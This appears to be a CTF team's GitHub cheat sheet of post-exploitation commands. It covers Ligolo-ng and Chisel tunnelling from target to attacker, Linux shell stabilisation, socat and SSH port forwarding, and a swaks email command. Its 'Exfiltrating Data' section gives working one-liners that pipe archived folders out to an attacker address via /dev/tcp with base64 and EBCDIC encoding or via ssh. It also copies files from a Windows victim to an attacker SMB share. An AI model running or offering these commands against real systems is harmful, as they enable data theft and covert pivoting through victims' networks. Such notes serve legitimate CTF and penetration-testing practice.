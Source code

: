 # purplestorm-TTPs

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [Ligolo-ng](#ligolo-ng)
- [Stabilizing Linux shell](#stabilizing-linux-shell)
- [Exfiltrating Data](#exfiltrating-data)
- [Port forwarding](#port-forwarding-1)
- [Transfering files](#transfering-files)
- [Sliver](Sliver.md)
## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```c
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

### Prepare Tunnel Interface

```c
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```c
$ sudo ip link set ligolo up
```

### Setup Proxy on Attacker Machine

```c
$ ./proxy -laddr <LHOST>:443 -selfcert
```

### Setup Agent on Target Machine

```c
$ ./agent -connect <LHOST>:443 -ignore-cert
```

### Configure Session

```c
ligolo-ng » session
```

```c
[Agent : user@target] » ifconfig
```

```c
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```c
[Agent : user@target] » start
```

### Port Forwarding

```c
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```


## Stabilizing Linux shell
```
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
screen
```

## Exfiltrating Data
### Linux
### via TCP socket, ebcdic and base64
On kali:
```
nc -nlvp 80 > datafolder.tmp
```
On target:
```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```
On kali:
```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```
### via SSH
On target:
```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```
On kali:
```
cd /tmp/datafolder
```
### Windows
via SMB server(from victim to attacker):
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -username user -password pass share . -smb2support  # On kali
net use \\10.10.16.5\share /u:user pass   # On victim
copy C:\Users\user\Desktop\somefile.txt \\10.10.16.5\share\somefile.txt   # On victim
```

## Port forwarding
### SSH:
On kali:
```
ssh -N -L 80:localhost:80 user@10.10.10.10 -C
```
### Chisel:
```
./chisel server -p 8000 --reverse #Server -- Attacker
./chisel client 10.10.16.3:8000 R:100:172.17.0.1:100 #Client -- Victim
```
### Socat:
On victim:
```
socat tcp-listen:8080,reuseaddr,fork tcp:localhost:9200 &
```

## Transfering files

